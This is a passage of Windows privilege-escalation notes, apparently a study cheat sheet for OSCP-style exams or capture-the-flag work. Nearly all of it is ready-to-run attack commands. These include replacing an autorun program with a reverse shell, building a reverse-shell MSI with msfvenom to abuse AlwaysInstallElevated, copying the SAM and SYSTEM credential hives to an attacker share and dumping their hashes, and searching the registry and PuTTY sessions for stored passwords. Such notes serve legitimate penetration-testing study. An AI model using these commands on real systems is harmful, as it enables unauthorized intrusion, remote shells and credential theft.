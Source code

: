 ```
cacls "C:\Users\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
cacls "C:\Documents and Settings\*" /T 2>nul | findstr ":F" | findstr "BUILTIN\Users"
cacls "C:\Users\*" /T 2>nul | findstr ":F" | findstr "BUILTIN\Users"
```

## Autorun executables
```powershell
# WARNING
# BEWARE
# FOR this to work you would have to restart a box
# OSCP exam or CTFs probably want you to turn off the *sigh* box  
#
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe" # sysinternals - check writablity
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y # copy reverse shell and overwrite the autorun
# restart system
```

## AlwaysInstalledElevated
```powershell
# Some PrivEsc related material online does not include the /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated # Query Both
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated # If both keys are set 1 (0x1)
```
On attackbox:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKBOX LPORT=$PORT -f msi -o reverse.msi # Beware of Arch
# Also requires metasploit handler module configured accordingly 
msiexec /quiet /qn /i C:\Windows\Temp\reverse.msi 
```

## Backup SAM and SYSTEM files
```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\ # These can often be transfered and cracked
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```

## Passwords in the registry
```
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon" # For admin autologons!
winexe -U 'admin%password' //MACHINE_IP cmd.exe # Kali winexe
```
PuTTy is an SSH client commonly found on Windows systems users can store session to retrieve the store d proxy credentials from proxcy configurations that are in plaintext 
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "ProxyPassword" /s
```
